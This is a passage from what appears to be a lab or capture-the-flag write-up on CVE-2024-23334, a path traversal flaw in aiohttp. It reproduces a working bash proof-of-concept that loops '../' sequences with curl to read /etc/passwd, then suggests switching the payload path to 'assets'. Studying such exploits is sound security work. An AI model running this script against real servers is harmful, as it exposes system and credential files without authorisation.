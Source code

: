 Learn more about `aiohttp` and get a POC to exploit it from: https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh

Exploit[.]sh content:
```
#!/bin/bash

url="http://localhost:8081"
string="../"
payload="/static/"
file="etc/passwd" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

Unsuccessful result:
![Exploit1](./images/28.png)

#### Solution 1: Change the payload from `static` to `assets` 
Reason: Because `assets` is one of the available valid path on the internal web app
